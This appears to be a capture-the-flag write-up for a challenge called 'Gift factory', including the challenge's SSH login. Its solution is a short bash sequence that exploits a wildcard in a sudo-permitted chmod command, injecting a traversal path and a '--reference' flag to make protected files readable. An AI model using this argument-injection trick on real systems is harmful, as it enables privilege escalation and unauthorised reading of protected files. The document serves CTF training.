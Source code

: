 # Gift factory

**Author:** [KptCheeseWhiz](https://github.com/KptCheeseWhiz)

## Description 

Krampus contacted you and he is willing to pay big bucks to have santa's good list in advance. As an elf working minimum wage at a gift factory, it would be nice if you could pay for both your rent and food this month.

`ssh -p41337 h0h0h0@h0h0h0.monordibogue.com #password is h0h0h0`

## Solution
The command you are allowed to run as root contains a '*'. You can inject additional paths and parameters to change its behavior completly.

```bash
# Create a file named u+rwx to fulfill the first argument
touch u+rwx

# Set its permissions to 777
chmod 777 u+rwx

# And use it as reference, effectively setting the permissions of the other files to 777
sudo /bin/chmod u+rwx /home/elf/wrapped/../u+rwx --reference=u+rwx /home/santa/naughty.txt /home/santa/good.txt

# Print the flag
cat /home/santa/good.txt
```
